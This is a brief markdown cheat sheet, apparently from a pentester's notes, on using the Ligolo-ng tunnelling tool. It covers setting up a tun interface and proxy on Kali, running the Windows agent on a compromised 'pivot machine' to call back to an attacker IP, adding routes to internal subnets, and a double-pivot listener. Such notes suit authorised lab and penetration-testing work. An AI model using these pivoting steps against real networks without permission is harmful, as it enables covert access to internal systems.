 # Name
Ligolo-ng

## Usage
```
On Kali:
    sudo ip tuntap add user root mode tun ligolo
    sudo ip link set ligolo up
    ./proxy_linux64 -selfcert -laddr 0.0.0.0:443 

    After client connects:
        In Ligolo-ng session: ifconfig
        In Kali terminal: sudo ip route add <internal-subnet> dev ligolo

On pivot machine:
    .\agent_win64.exe -connect 192.168.45.227:443 -ignore-cert

Double pivot:
    In initial ligolo-ng session:
        listener_add --addr 0.0.0.0:80 --to 127.0.0.1:80
```

## Source
https://github.com/nicocha30/ligolo-ng/releases/tag/v0.7.5
